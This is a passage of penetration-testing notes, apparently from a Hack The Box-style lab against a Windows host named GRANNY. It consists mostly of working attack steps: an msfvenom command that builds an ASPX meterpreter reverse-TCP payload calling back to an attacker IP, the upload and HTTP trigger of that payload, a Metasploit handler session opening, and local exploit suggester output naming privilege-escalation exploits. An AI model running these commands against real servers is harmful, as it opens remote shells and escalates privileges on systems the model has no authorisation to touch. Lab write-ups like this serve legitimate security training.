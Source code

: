 ## Meterpreter

```
# msfvenom -p windows/meterpreter/reverse_tcp  LHOST=10.10.14.32 LPORT=4446 --platform windows -a x86 -e generic/none -f aspx -o reverse_meter.txt

put reverse_meter.txt
move reverse_meter.txt reverse_meter.aspx

http://10.10.10.15/reverse_meter.aspx

# msfconsole
                                                  
msf > use exploit/multi/handler
msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > set lhost 10.10.14.32
lhost => 10.10.14.32
msf exploit(multi/handler) > set lport 4446
lport => 4446
msf exploit(multi/handler) >  set ExitOnSession false
ExitOnSession => false
msf exploit(multi/handler) > exploit -j     : sessions in background
[*] Exploit running as background job 0.

[*] Started reverse TCP handler on 10.10.14.32:4446 
msf exploit(multi/handler) > [*] Sending stage (179779 bytes) to 10.10.10.15
[*] Meterpreter session 1 opened (10.10.14.32:4446 -> 10.10.10.15:1033) at 2019-09-08 16:14:23 +0200

msf exploit(multi/handler) > 


## Meterpreter exploit suggester

```
msf exploit(multi/handler) > use post/multi/recon/local_exploit_suggester
msf post(multi/recon/local_exploit_suggester) > sessions

Active sessions
===============

  Id  Name  Type                     Information                            Connection
  --  ----  ----                     -----------                            ----------
  1         meterpreter x86/windows  NT AUTHORITY\NETWORK SERVICE @ GRANNY  10.10.14.32:4446 -> 10.10.10.15:1033 (10.10.10.15)

msf post(multi/recon/local_exploit_suggester) > set session 1
session => 1
msf post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.15 - Collecting local exploits for x86/windows...
[*] 10.10.10.15 - 40 exploit checks are being tried...
[+] 10.10.10.15 - exploit/windows/local/ms10_015_kitrap0d: The target service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms16_016_webdav: The target service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The target service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.